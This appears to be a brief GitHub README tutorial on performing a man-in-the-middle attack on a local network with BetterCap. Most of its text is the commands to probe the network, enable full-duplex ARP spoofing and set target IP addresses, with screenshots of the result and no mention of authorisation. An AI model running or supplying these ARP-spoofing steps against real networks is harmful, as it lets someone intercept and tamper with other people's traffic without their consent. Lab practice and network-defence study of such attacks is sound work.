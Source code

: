 
# Man In the Middle Attack Using BetterCap


![veracode-appsec_man-middle-attack](https://github.com/eyeblech/man_in_the_middle/assets/78268197/9019f198-ead6-41b1-a4b9-f45d59904090)

```bash
#install bettercap on your linux system

bettercap -iface [network interface name]

#finding network interface name
```

![Screenshot from 2023-07-14 19-09-41](https://github.com/eyeblech/man_in_the_middle/assets/78268197/a6365573-f619-468a-837f-e668d3809aaa)


```bash
#wlp0s20f3 is my network interface name

help

help net.probe

#you can use help if you don't know what that specific thing does

net.probe on #this should be on for spoofing 

#Be MITM

help arp.spoof

set arp.spoof.fullduplex true

set arp.spoof.targets [targets ip, targets ip]

arp.spoof on

```
this is how it looks like
![Screenshot from 2023-07-14 22-11-26](https://github.com/eyeblech/man_in_the_middle/assets/78268197/197fb233-70b1-4c24-b57d-987cc62e28fe)

